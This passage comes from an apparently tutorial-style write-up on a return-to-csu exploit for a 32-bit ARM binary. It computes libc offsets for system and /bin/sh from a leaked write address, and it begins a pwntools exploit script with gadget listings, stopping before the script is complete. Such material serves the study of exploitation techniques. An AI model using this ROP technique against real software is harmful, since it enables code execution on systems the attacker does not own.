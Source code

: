 `_system\_offset = 0x60910_`

The same is done for /bin/sh. Both addresses of /bin/sh and write are printed as shown in fig 11 and then their difference gives us the offset. 

<p align="center">
<img src="https://github.com/xetrapwn/xetrapwn.github.io/blob/master/images/return-to-csu_on_ARM32/figure11.png">
<br>
Fig 11 - base addresses of /bin/sh and write functions
</p>

`_binsh\_offset = 0x49814_`

Now we just need to add or subtract them with a leaked write address to find the real addresses.

`_system = (leaked\_write - system\_offset)_`

`_binsh = (leaked\_write + binsh\_offset)_`

The system offset is subtracted because the system function was above the write function. And similarly, /bin/sh offset is added because the write function was above /bin/sh.

All the addresses we need for the payload two are successfully found. Following is the second phase of our exploit.

<p align="center">
<img src="https://github.com/xetrapwn/xetrapwn.github.io/blob/master/images/return-to-csu_on_ARM32/figure12.png">
<br>
Fig 12 - Second phase of exploit
</p>

### **Complete Exploit**

The complete exploit will look something like this.

_#!/usr/bin/env python3_

_from pwn import \*_

_p = process(&#39;bof&#39;)_

_e = ELF(&#39;bof&#39;)_

_#### Phase 01 - Leaking address of write function_

_# gadgets in \_\_libc\_csu\_init_

_# 0x00010492 \&lt;+38\&gt;: mov r2, r9_

_# 0x00010494 \&lt;+40\&gt;: mov r1, r8_

_# 0x00010496 \&lt;+42\&gt;: mov r0, r7_

_# 0x00010498 \&lt;+44\&gt;: blx r3_

_# 0x0001049a \&lt;+46\&gt;: cmp r6, r4_

_# 0x0001049c \&lt;+48\&gt;: bne.n 0x1048c \&lt;\_\_libc\_csu\_init+32\&gt;_

_# 0x0001049e \&lt;+50\&gt;: ldmia.w sp!, {r3, r4, r5, r6, r7, r8, r9, pc}_
